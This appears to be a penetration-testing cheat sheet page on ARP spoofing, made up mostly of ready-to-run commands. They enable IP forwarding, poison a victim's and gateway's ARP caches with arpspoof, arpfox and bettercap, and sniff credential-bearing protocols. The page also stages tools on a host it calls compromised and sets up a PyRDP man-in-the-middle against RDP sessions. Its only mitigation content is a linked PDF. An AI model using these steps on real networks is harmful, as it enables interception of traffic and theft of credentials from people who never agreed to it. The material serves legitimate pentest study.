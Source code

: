```yaml
---
description: Address Resolution Protocol
---
```


# ARP Spoofing

- [https://idafchev.github.io/pentest/2019/10/28/combining_arp_poisoning_and_ip_spoofing_to_bypass_firewalls.html](https://idafchev.github.io/pentest/2019/10/28/combining_arp_poisoning_and_ip_spoofing_to_bypass_firewalls.html)
- [https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/arp-poisoning](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/arp-poisoning)

Enable IP forwarding:

```
$ sudo sysctl -w net.ipv4.ip_forward=1
(sudo sh -c 'echo 1 > /proc/sys/net/ipv4/ip_forward')
(edit /etc/sysctl.conf "net.ipv4.ip_forward = 1" to make it permanent)
```




## arpspoof (dsniff)

* [https://github.com/tecknicaltom/dsniff](https://github.com/tecknicaltom/dsniff)
* [https://github.com/GregHoff/dsniff](https://github.com/GregHoff/dsniff)

Install:

```
$ sudo apt install dsniff -y
```

Fire up the attack with Wireshark (filter `ip.src == VICTIM_10.0.0.5`) running:

```
$ sudo arpspoof [-i eth0] [-c both] -t VICTIM_10.0.0.5 GATEWAY_10.0.0.1 [-r]
```

![arpspoof Output Disassembled](/.gitbook/assets/009.png)

{% hint style="hint" %}
Wireshark filter while ARP spoofing:

```
(http || ftp || smb || smb2 || ldap) && ip.src == VICTIM_10.0.0.5
```
{% endhint %}



### Portable

* [https://github.com/byt3bl33d3r/arpspoof](https://github.com/byt3bl33d3r/arpspoof)
* [https://github.com/malfunkt/arpfox](https://github.com/malfunkt/arpfox)

As a portable alternative one may use the Python port of arpspoof compiled with PyInstaller:

```
$ sudo apt install virtualenv
$ pip install pyinstaller=3.5
$ git clone https://github.com/byt3bl33d3r/arpspoof
$ cd arpspoof
$ virtualenv -p `which python2` venv
$ . venv/bin/activate
$ pip install -r requirements.txt
$ pyinstaller --onefile --paths venv/lib/python2.7/site-packages arpspoof/arpspoof.py
$ file dist/arpspoof
```

Another approach is to download Python dependencies locally and install them on a compromised Linux host:

```
Dev$ pip download --no-binary=:all: -r requirements.txt
Compromised$ python -m pip install --no-index --find-links . -r requirements.txt
```

If you need to launch ARP spoofing on another distro (CentOS, for example), then installing OS dependencies and using a portable binary may be easier:

```
Dev$ mkdir /tmp/tcpdump && yum install --downloadonly --downloaddir=/tmp/tcpdump tcpdump
Dev$ ls /tmp/tcpdump
libpcap-1.5.3-12.el7.x86_64.rpm  tcpdump-4.9.2-4.el7_7.1.x86_64.rpm

Compromised$ rpm -i libpcap*.rpm tcpdump*.rpm
Compromised$ tcpdump -nvv -i eth0 -s 65535 -w arpfox.pcap "src host VICTIM_10.0.0.5"
Compromised$ ./arpfox -l
Compromised$ ./arpfox -i eth0 -t VICTIM_10.0.0.5 GATEWAY_10.0.0.1
```




## bettercap

* [https://github.com/bettercap/bettercap](https://github.com/bettercap/bettercap)
* [https://www.bettercap.org/modules/](https://www.bettercap.org/modules/)
* [https://linuxhint.com/install-bettercap-on-ubuntu-18-04-and-use-the-events-stream/](https://linuxhint.com/install-bettercap-on-ubuntu-18-04-and-use-the-events-stream/)
* [https://hackernoon.com/man-in-the-middle-attack-using-bettercap-framework-hd783wzy](https://hackernoon.com/man-in-the-middle-attack-using-bettercap-framework-hd783wzy)
* [https://www.cyberpunk.rs/bettercap-usage-examples-overview-custom-setup-caplets](https://www.cyberpunk.rs/bettercap-usage-examples-overview-custom-setup-caplets)

Deb dependencies (Ubuntu 18.04 LTS):

* [libpcap0.8_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap0.8_1.8.1-6ubuntu1_amd64.deb.html)
* [libpcap0.8-dev_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap0.8-dev_1.8.1-6ubuntu1_amd64.deb.html)
* [libpcap-dev_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap-dev_1.8.1-6ubuntu1_amd64.deb.html)
* [pkg-config_0.29.1-0ubuntu2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/pkg-config_0.29.1-0ubuntu2_amd64.deb.html)
* [libnetfilter-queue1_1.0.2-2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-universe-amd64/libnetfilter-queue1_1.0.2-2_amd64.deb.html)
* [libnfnetlink-dev_1.0.1-3_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libnfnetlink-dev_1.0.1-3_amd64.deb.html)
* [libnetfilter-queue-dev_1.0.2-2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-universe-amd64/libnetfilter-queue-dev_1.0.2-2_amd64.deb.html)

Attack:

```
$ sudo ./bettercap --iface eth0 --caplet arpspoof.cap
```

{% code title="arpspoof.cap" %}
```bash
# Quick recon of the network
net.probe on

# Set the ARP spoofing
set arp.spoof.targets $CLIENT_IP
set arp.spoof.internal false
set arp.spoof.fullduplex false

# Control logging and verbosity
events.ignore endpoint
events.ignore net.sniff

# Start the modules
arp.spoof on
net.sniff on
```
{% endcode %}



### PyRDP

- [https://github.com/GoSecure/pyrdp](https://github.com/GoSecure/pyrdp)
- [https://github.com/GoSecure/pyrdp/blob/master/docs/bettercap-rdp-mitm.md](https://github.com/GoSecure/pyrdp/blob/master/docs/bettercap-rdp-mitm.md)
- [https://github.com/GoSecure/caplets/blob/master/rdp-proxy/rdp-sniffer.cap](https://github.com/GoSecure/caplets/blob/master/rdp-proxy/rdp-sniffer.cap)

Install PyRDP:

```
$ sudo apt update
$ sudo apt install python3 python3-pip python3-dev python3-setuptools python3-venv build-essential python3-dev git openssl libgl1-mesa-glx libnotify-bin libxkbcommon-x11-0 libxcb-xinerama0 libavformat-dev libavcodec-dev libavdevice-dev libavutil-dev libswscale-dev libswresample-dev libavfilter-dev -y
$ git clone https://github.com/gosecure/pyrdp ~/tools/pyrdp && cd ~/tools/pyrdp
$ python3 -m venv venv && source venv/bin/activate
$ pip install -U pip setuptools wheel
$ pip install -U -e '.[full]'
```

Compile bettercap [from fork](https://github.com/GoSecure/bettercap):

```
$ sudo apt install build-essential libpcap-dev libusb-1.0-0-dev libnetfilter-queue-dev -y
$ mkdir -p $GOPATH/src/github.com/GoSecure && cd $GOPATH/src/github.com/GoSecure
$ git clone https://github.com/GoSecure/bettercap -b rdp-mitm --single-branch && cd bettercap
$ go mod init && go mod tidy && go get && go mod vendor && go build
```

Run the attack hoping that the RDP client `192.168.1.3` will connect to the RDP server `192.168.1.2` with NLA disabled:

```
$ curl -sSL https://github.com/GoSecure/caplets/raw/master/rdp-proxy/rdp-sniffer.cap -o rdp-sniffer.cap
$ sudo ./bettercap -iface eth0 -caplet rdp-sniffer.cap -eval "set arp.spoof.targets 192.168.1.2, 192.168.1.3; set rdp.proxy.targets 192.168.1.2; set rdp.proxy.command `which pyrdp-mitm.py`"
```




## Mitigations

Mitigating ARP spoofing:

{% file src="/.gitbook/assets/Ruijie Anti-ARP Spoofing Technical White Paper.pdf" %}
